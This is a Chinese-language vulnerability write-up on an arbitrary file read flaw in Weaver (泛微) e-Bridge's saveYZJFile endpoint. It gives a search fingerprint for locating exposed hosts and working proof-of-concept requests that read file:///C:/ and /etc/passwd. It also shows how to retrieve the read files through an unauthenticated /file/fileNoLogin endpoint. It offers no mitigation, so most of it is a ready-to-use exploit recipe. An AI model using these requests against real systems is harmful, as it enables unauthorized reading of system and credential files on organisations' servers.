

# 泛微OA E-Bridge saveYZJFile 任意文件读取漏洞

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响版本

<a-checkbox checked>泛微云桥 e-Bridge 2018-2019 多个版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="泛微云桥e-Bridge"</a-checkbox></br>

## 漏洞复现

```
# Windows验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt
```


成功返回 `id值`,说明含有此漏洞

<a-alert type="success" message="调用查看文件接口访问 /file/fileNoLogin/id值" description="" showIcon>
</a-alert>
<br/>


### 

```
# Linux验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```




成功返回 `id值`,说明含有此漏洞

调用查看文件接口访问 `/file/fileNoLogin/id值`

